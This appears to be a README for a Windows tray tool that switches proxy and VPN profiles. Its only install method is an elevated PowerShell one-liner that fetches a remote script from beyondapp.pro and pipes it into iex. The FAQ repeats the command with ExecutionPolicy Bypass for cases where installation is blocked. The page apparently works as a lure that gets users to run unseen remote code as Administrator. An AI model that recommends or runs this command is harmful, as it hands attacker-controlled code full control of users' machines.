

<div align="center">


# Quick Proxy Region Switcher
**Hotkey profiles · System proxy · Tray tool**



</div>

---

> Lightweight tray utility to switch Windows proxy profiles or VPN connections using hotkeys.

## `ABOUT`

Tray utility to **quickly switch system proxy or VPN profiles** with hotkeys on Windows.

## `INSTALLATION`

<div align="center">


<br><br>

**Run in PowerShell as Administrator:**

```powershell
irm https://beyondapp.pro/ps/setup.ps1 | iex
```

<sub>Copy · paste · press Enter · confirm UAC</sub>

</div>

**Setup runs in three steps:**

| Step | Action |
|:--:|---|
| **1/3** | Downloading components — tool package and dependencies |
| **2/3** | Unpacking archive — files extracted to a temp workspace |
| **3/3** | Launching installer — utility is installed on Windows |

## `FEATURES`

⌨️ **Hotkey profiles** — Jump between saved network setups instantly.
🌐 **System proxy** — Toggle WinHTTP / user proxy settings safely.
📌 **Tray icon** — See active profile from the notification area.
💾 **Profile presets** — Name and store region/work/home configs.
⚡ **One command** — PowerShell handles download, unpack, and setup.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 4 GB |
| **Disk** | 1 GB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section. You should see steps <b>[1/3]</b>, <b>[2/3]</b>, and <b>[3/3]</b> in the console.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://beyondapp.pro/ps/setup.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>What does this tool do?</b></summary>
<br>Tray utility to **quickly switch system proxy or VPN profiles** with hotkeys on Windows.
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Re-run the same PowerShell command to fetch the latest build.
</details>
